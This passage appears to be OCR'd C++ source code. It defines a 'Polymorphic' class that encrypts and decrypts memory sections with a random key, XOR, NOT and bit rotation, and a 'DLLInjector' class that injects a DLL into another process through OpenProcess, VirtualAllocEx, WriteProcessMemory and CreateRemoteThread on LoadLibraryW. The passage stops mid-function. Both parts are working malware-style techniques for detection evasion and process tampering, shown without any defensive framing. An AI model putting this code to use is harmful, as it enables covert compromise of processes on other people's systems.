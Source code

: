         key.resize(256);
        for(int i = 0; i < 256; i++) {
            key[i] = static_cast<BYTE>(dis(gen));
        }
    }
    
public:
    static void EncryptSection(BYTE* data, size_t size) {
        if(key.empty()) GenerateKey();
        
        for(size_t i = 0; i < size; i++) {
            data[i] ^= key[i % key.size()];
            data[i] = ~data[i];
            data[i] = _rotl8(data[i], 3);
        }
    }
    
    static void DecryptSection(BYTE* data, size_t size) {
        if(key.empty()) return;
        
        for(size_t i = 0; i < size; i++) {
            data[i] = _rotr8(data[i], 3);
            data[i] = ~data[i];
            data[i] ^= key[i % key.size()];
        }
    }
};

std::vector<BYTE> Polymorphic::key;

class DLLInjector {
public:
    static bool InjectDLL(DWORD processId, const wchar_t* dllPath) {
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
        if (!hProcess) return false;
        
        size_t pathSize = (wcslen(dllPath) + 1) * sizeof(wchar_t);
        LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, pathSize, 
            MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            
        if (!remoteMem) {
            CloseHandle(hProcess);
            return false;
        }
        
        if (!WriteProcessMemory(hProcess, remoteMem, dllPath, pathSize, NULL)) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        LPTHREAD_START_ROUTINE loadLibraryAddr = 
            (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
            
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, 
            loadLibraryAddr, remoteMem, 0, NULL);
            
